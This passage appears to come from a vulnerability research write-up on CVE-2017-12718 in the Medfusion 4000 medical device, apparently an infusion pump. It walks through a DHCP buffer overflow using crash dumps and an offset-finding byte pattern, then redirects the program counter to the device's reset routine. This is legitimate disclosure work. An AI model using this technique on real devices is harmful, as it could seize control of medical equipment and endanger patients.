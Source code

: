 Register `A0` being `0x41414141` means we control that register. We need to disassemble the code at the program counter address and try to figure out why the system crashed.

At `0x310a3a32`, we have the following:

```Assembly
jsr     (a0)
```

...And we're done. The system is trying to jump to `A0`, which we now control. It contains an invalid address, hence the exception. I had expected to see `0x41414141` in the Program Counter if we truly had code execution, but was pleasantly surprised here.

Our buffer was filled with a bunch of `0x41`s, and we need the actual location of the four bytes to replace in order to redirect the program counter wherever we want. A simple trick for this is just filling the overflowing buffer with incrementing values. For example, instead of sending a string of `0x41`s, we send the following:

```
00 01 02 03 04 05 06 07 08 09 0a 0b 0c 0d 0e 0f 10 11 ... fc fd fe ff ff
```

After we run again, we crash here:

```
*** EXCEPTION OCCURRED ON BASE ***
Exception Event:
        Time                    :
Time: 1970-01-01T00:00:00+00:00
        Task Name               : TCP/IP
        MQX Task ID             : 0x0001000d
        Vector #                : 0x0000000c
        Offset                  : 0x00000003
        Interrupt nesting level : 1
        Status Register         : 0x2000
        Program Counter         : 0x310a3a32
        Task Error Code         : 0x00001714
        Task Flags              : 0x00000000
        Registers :
                 D0: 0x00000032 D1: 0x00000032 D2: 0x00001ed0
                 D3: 0x0000000a D4: 0x316823cc D5: 0x310a383c
                 D6: 0x00000000 D7: 0x00002684
                 A0: 0x94959697 A1: 0x31682520 A2: 0x00000000
                 A3: 0x00000000 A4: 0x00000000 A5: 0x00000000
                 A6: 0x00000032
```

`A0` is `0x94959697`. That tells us the exact offset we need to replace to control PC.

#### CVE-2017-12718

Let's now change `0x94959697` to a command line function on the system and see what happens. A good target is the reset function. If it works, the system should print "Software Reboot" and either reset or crash. Modify the DHCP script, plug in the address of reset, ensure the system is setup to query DHCP, then reboot it.

```
Welcome to the Medfusion 4000 Configuration Interface

password: (c)opyright 2004 Conexant
Configuring Wired Interface

Software Reboot:
```
